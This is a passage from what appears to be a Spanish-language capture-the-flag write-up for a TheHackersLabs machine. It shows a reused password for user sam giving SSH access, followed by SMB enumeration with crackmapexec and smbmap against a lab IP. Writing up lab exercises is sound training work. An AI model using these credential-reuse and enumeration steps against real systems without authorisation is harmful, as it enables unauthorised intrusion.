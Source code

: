 Tenemos la contraseña del **usuario sam**.

Puede que la haya cambiado, pero mejor lo comprobamos:

<p align="center">
<img src="/assets/images/THL-writeup-elCandidato/Captura20.png">
</p>

No la cambio.

Si la probamos en el **servicio SSH**, también tendremos acceso:
```bash
ssh sam@192.168.100.150
sam@192.168.100.150's password: 
Linux TheHackersLabs-Gyhabogados 6.1.0-28-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.119-1 (2024-11-22) x86_64
...
Last login: Sun Dec  8 18:26:08 2024
sam@TheHackersLabs-Gyhabogados:~$ whoami
sam
```
El problema es que no encontramos nada que nos ayude por aquí.

Pero si probamos la contraseña del **usuario sam** en el **servicio Samba**,  ya podremos listar los archivos compartidos:
```bash
crackmapexec smb 192.168.100.150 -u 'sam' -p '**********'
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [*] Windows 6.1 Build 0 (name:THEHACKERSLABS-GYHABOGADOS) (domain:THEHACKERSLABS-GYHABOGADOS) (signing:False) (SMBv1:False)
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [+] THEHACKERSLABS-GYHABOGADOS\sam:**********
```

Listemos los archivos compartidos con **smbmap**:
```bash
smbmap -H 192.168.100.150 -u 'sam' -p '**********' --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 192.168.100.150:445	Name: gyhabogados.thl     	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
```